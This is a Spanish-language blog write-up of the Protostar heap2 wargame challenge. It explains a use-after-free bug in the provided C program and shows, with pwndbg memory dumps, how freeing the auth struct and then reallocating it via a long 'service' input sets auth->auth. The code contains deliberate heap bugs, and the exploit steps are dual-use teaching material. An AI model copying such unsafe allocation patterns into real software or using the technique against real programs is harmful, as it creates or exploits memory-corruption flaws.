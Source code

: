 ```yaml
---
layout: post
title: protostar heap2 - UAF (Use-After-Free)
author: c4rta
date: 2023-01-21
categories: [Explotacion binaria]
tags: [Heap, UAF]
cover: /imgs/heap2/waifu.gif
---
```

Este desafio es una introduccion una tecnica llamada Use-After-Free la cual basicamente ocurre cuando se hace referencia a la memoria despues de que haya sido liberada

## Analizando el binario y explotacion

El codigo que nos proveen es este:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
 
struct auth {
  char name[32];
  int auth;
};
 
struct auth *auth;
char *service;
 
int main(int argc, char **argv)
{
  char line[128];
 
  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);
 
      if(fgets(line, sizeof(line), stdin) == NULL) break;
       
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```
Vemos que el programa se queda en un bucle infinito gracias a ```while(1)```, ademas recibe 4 comandos: auth, reset, service y login.

Primeramente se esta declarando una estructuta llamada ```auth``` la cual tiene dos variables:

```c
struct auth {
  char name[32];
  int auth;
};
```
En la cual ```name``` es una arreglo de caracteres de 32 bytes.

De ahi nos vamos al primer if:

```c
if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
```
En el cual si el input es ```auth```, le asignaremos memoria con ```malloc()```, y el resto del input es tomado por la variable ```name``` de ```struct auth```

En el segundo if:

```c
if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
```
Lo que hace aqui es liberar memoria de el objeto ```auth``` 

En el tercer if:

```c
if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
```
Lo que hace es tomar el resto de la entrada y le asigna memoria con ```strdup```, la cual esta devuelve un puntero

Y el ultimo if:

```c
if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
```

Lo que hace es realizar una verificacion si el ```auth struct``` tiene un valor igual que 0.

Para resolver el desafio lo que hacer que hacer es pasar la condición de que auth->auth sea un valor que no sea cero, ya que en ninguna parte del código se le asigna un valor a auth->auth.

Asi que para resolver esta desafio tenemos que mostrar: ```you have logged in already!```

Aqui lo que se me ocurre hacer es asignar memoria con ```auth```, luego liberar le memoria con ```reset``` y despues dar un input usando el comando ```service```, lo suficientemente grande para para sobreescribir ```auth->auth```, esto hara que el programa intente acceder a ```auth struct``` pero ahora su memoria se libero y luego se sobreescribio con lo que le metimos con ```service``` y ahora ```auth->auth``` es diferente de 0

### Visualizandolo en gdb

Lo primero es ver el contenido de la memoria de auth cuando tiene un valor asignado a ```auth->name```, osea cuando se ingresa el comando ```auth```

Esto lo hare poniendo en breakpoint en ```0x08048a01``` que es donde se hace lo que dije arriba

Primeramente podemos ver como en ```EAX``` se almacena nuestro input:

```*EAX  0x804c818 ◂— 'c4rta\n'```

Y si mostramos el contenido del registro ```EAX``` podemos ver algo como esto:

```eax            0x804c818           134531096```

La memoria asignada por ```malloc()``` esta ubicada en ```0x804c818``` el cual se guardo en ```EAX``` que es el valor de retorno de ```malloc()``` que contiene nuestro input

Sin embargo, si mostramos unos cuantos bytes por debajo del valor de retorno de ```malloc()```, podemos ver esto:

```
pwndbg> x/20xb $eax-8 
0x804c810:	0x00	0x00	0x00	0x00	0x11	0x00	0x00	0x00
0x804c818:	0x63	0x34	0x72	0x74	0x61	0x0a	0x00	0x00
0x804c820:	0x00	0x00	0x00	0x00
```

Aqui quiero destacar el ```0x11```, el encabezado del ```chunk``` muestra que solo hay 16 bytes asignados (```0x00000011```), donde el bit LS es un indicador que indica que se ha asignado el fragmento anterior, (esto se conoce como la flag ```PREV_INUSE```), en lugar de los bytes necesario para ```auth struct``` , esto es por que en la línea 25, la llamada ```malloc()``` obtiene el tamaño del puntero con el mismo nombre que la estructura, y debido a que cada puntero tiene un tamaño de 4 bytes, ```malloc()``` asigna 4 bytes más los 8 bytes adicionales para el encabezado.

Ademas tambien podemos ver nuestro input el cual es:

```0x63	0x34	0x72	0x74	0x61```

Ahora es momento de saber que pasa si hacemos un ```reset``` y despues un ```login```

```
pwndbg> x /20xb $eax-8 
0x804c000:  0x00    0x00    0x00    0x00    0x11    0x00    0x00    0x00 
0x804c008:  0x00    0x00    0x00    0x00    0x0a    0x00    0x00    0x00 
0x804c010:  0x00    0x00    0x00    0x00    0xf1
```
Aqui ya se puso interesante la cosa, el objeto del heap esta alli (de ```0x11``` a ```0xf1``` el cual ```0xf1``` es llamado ```top chunk```), pero nuestro input ya no esta, entonces ahora veremos que pasa si creamos un nuevo objeto en el heap usando ```service``` pero pasandole un tamaño mas grande que 16 bytes, esto lo podemos hacer ya que la memoria despues de ```free()``` esta disponible para volverla a asignar:

```
[ auth = 0x804c818, service = (nil) ]
service AAAAAAAAAAAAAAAAAA
```

Podemos ver como se asigno en el espacio anterior, osea en ```auth```, esto es ya que tiene la misma direccion: ```0x804c818```, pero eso no es todo, tambien logramos sobreescribir ```auth->auth``` gracias a ```service``` , esto lo podemos ver si mostramos unos cuantos bytes desde ```0x804c818```:

```
pwndbg> x /64xb 0x804c818
0x804c818:	0x20	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c820:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x804c828:	0x61	0x61	0x61	0x0a	0x00	0x00	0x00	0x00
0x804c830:	0x00	0x00	0x00	0x00	0xd1	0x07	0x00	0x00
0x804c838:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c840:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c848:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x804c850:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
```
Podemos ver como en la direccion ```0x804c828``` que es la de ```auth->auth``` ahora contiene ```0x61	0x61	0x61``` de mas


Y ahora aun que el objeto del heap se libero, el puntero a ```auth->auth``` no se anulo, y aun se usa, y dará como resultado un valor diferente de 0, asi que si continuamos la ejecucion vemos como ya obtuvimos la flag:

```
pwndbg> c
Continuing.
you have logged in already!
```

Y si fue como explotamos un UAF basico aprovechandonos de una sobreescritura con ```service``` para usar usar un ```chunk``` liberado anteriormente el cual ahora es llamado ```free chunk```

Eso ha sido todo, y tranquilo si no llegaste a entender lo que pasaba, por que ni yo ni nadie entiende estas cosas a la primera, pero con tiempo y diciplina se puede lograr. Realmente no me gustaria que te frustraras por algo asi, tu puedes. Gracias por leer ❤
